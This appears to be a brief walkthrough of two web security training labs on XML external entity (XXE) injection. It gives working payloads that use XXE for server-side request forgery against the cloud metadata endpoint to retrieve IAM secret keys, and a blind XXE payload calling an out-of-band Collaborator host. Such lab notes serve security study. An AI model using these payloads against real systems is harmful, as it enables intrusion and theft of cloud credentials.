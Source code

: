   

Lab 02: Exploiting XXE to perform SSRF attacks:

-  If "Check stock" feature that parses XML input and returns any unexpected values in the response.

- Intercepting the **POST** request, and inserting in between XML declaration

```

 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>

```

- Replace productId number as `&xxe;`

- Response should contain "Invalid product ID: ___ followed by the response from the metadata endpoint____". [eg: latest]

- Iteratively update the URL that result in JSOAN response containing secret access key.[http://169.254.169.254/latest/meta-data/iam/security-credentials/admin]

  
  

Lab 03: Blind XXE with out-of-band interaction

- "Check stock" feature that parses XML input but does not display the result.

- Can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

  

Attack:

- Intercepting the **POST** request, and inserting in between XML declaration.

```

 <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>

```

- Replace productId number as `&xxe;`

- Go to the Collaborator tab, and click "Poll now". You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

```

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://Insert Collaborator payload"> ]>

<stockCheck>

<productId>

&xxe;

</productId>

<storeId>

2

</storeId>

</stockCheck>

```
